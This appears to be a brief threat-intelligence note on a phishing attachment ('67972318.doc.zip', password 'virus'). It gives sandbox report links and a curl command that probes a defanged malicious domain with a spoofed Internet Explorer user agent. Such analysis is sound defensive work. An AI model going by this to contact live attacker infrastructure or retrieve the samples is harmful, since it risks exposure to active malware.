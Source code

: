 Fishing attachment "67972318.doc.zip" password is "virus"

Sample: https://www.hybrid-analysis.com/sample/af9ed7de1d9d9d38ee12ea2d3c62ab01a79c6f4b241c02110bac8a53ea9798b5/5b0bdfff7ca3e145a22ff941

DOC: https://app.any.run/tasks/2a83b3f6-8eb2-4a55-b077-9d20eb2c63d4

JS: https://app.any.run/tasks/3705a1c8-a57f-42fe-9ff1-23e045f2d16a

$ curl -v -A "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 7.0; InfoPath.3; .NET CLR 3.1.40767; Trident/6.0; en-IN)" http://secure.n-document[.]biz/humans.txt
Trying 185.180.196.53...
